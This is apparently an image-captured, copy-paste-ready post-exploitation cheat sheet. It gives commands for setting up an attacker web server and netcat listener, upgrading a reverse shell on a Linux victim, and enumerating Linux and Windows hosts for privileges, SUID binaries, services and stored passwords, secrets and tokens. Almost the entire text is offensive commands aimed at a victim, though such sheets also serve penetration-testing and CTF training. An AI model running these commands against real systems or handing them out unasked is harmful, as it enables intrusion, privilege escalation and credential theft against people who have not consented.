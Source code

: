 
## Typical command walkthrough (detailed, copy-paste friendly)

Placeholders:
- ATTACKER_IP: your IP
- LPORT: your chosen port (e.g., 4444/8000/1080)
- TARGET_IP, PIVOT_IP: remote host addresses
- USER, PASS, DOMAIN: credentials if known

1) Prepare on the attacker box (simple web server, listener)
```
# Simple web server for tool transfer
python3 -m http.server 8000

# Nice Netcat listener with history
rlwrap -cAr nc -lvnp 4444
```

2) Stabilize a basic reverse shell (Linux victim)
```
# If you only have a dumb shell, upgrade it
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Press Ctrl+Z to background, then on attacker:
stty raw -echo; fg
reset
stty rows 40 columns 120
```

3) Local enumeration – Linux
```
whoami && id && hostname -f
uname -a; cat /etc/os-release
ip -brief addr; ip route
ss -tulpn
ps auxww
env
sudo -l 2>/dev/null
ls -la /home /root 2>/dev/null
ls -la /var/backups /var/log 2>/dev/null
cat /etc/crontab; ls -la /etc/cron.* 2>/dev/null
systemctl list-timers --all 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
getcap -r / 2>/dev/null
find / -writable -type d 2>/dev/null
dpkg -l 2>/dev/null | grep -Ei 'sudo|policykit|kernel|openssh'
grep -R -nEi 'password|secret|passwd|pwd|token|key' /var/www /opt /home 2>/dev/null
```

4) Local enumeration – Windows (CMD/PowerShell)
```
whoami /all
hostname && ver
systeminfo
wmic qfe get HotFixID,InstalledOn
ipconfig /all
route print
arp -a
net users
net localgroup administrators
net localgroup "Remote Desktop Users"
query user
net share
tasklist /v
sc query state= all | findstr /i "RUNNING"
wmic service get Name,StartName,State,PathName | findstr /i "mysql\|mssql\|tomcat\|apache\|pgsql"
```